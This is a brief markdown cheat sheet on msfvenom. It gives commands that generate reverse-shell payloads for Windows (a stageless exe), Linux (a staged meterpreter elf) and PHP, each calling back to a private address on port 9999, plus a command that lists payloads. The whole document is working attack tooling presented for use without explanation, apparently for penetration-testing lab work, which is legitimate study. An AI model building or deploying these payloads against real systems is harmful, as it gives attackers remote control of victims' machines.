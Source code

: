 ```yaml
---
tags: [shell]
---
```

# msfvenom

- [Metasploit Shell - InterceptZero](https://www.interceptzero.com/blog/metasploit-shell/)

## Windows TCP reverse shell (stageless) without meterpreter

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.75 LPORT=9999 -f exe > rewin.exe
```

## Linux 32bit TCP reverse shell (staged) with meterpreter

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.75 LPORT=9999 -f elf > reverse.elf
```

## PHP TCP reverse shell (staged) with meterpreter

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.11.0.75 LPORT=9999 -f raw
```

## List payloads with filters

```
msfvenom --list payloads --arch x64 --platform linux
```
